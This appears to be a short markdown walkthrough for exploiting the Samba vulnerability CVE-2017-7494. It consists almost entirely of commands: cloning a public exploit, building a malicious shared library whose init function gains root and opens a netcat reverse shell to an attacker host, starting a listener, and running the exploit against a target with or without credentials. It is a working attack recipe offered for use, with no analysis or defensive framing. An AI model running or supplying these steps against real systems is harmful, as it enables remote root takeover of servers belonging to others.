 ### clone repo
```
git clone https://github.com/joxeankoret/CVE-2017-7494
```

### create virtual environment and install dependencies
```
virtualenv -p /usr/bin/python2.7 exploit2
source exploit2/bin/activate
pip install pyasn1
pip install pycryptodome
```

### create reverse shell
```
cd CVE-2017-7494
```

### open shell.c and insert
```
#include <stdio.h>
#include <stdlib.h>
int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <lhost> <lport> >/tmp/f");
}
```

### compile
```
gcc -o shell.so -shared shell.c -fPIC
```

### start listener
```
nc -lnvp <lport>
```

### run exploit
```
./cve_2017_7494.py -t <rhost> -u <user> -P <password> --custom=shell.so
```

### or run without user if user not needed for share
```
./cve_2017_7494.py -t <rhost> --custom=shell.so
```

### References
https://github.com/opsxcq/exploit-CVE-2017-7494  
https://www.exploit-db.com/exploits/42084  

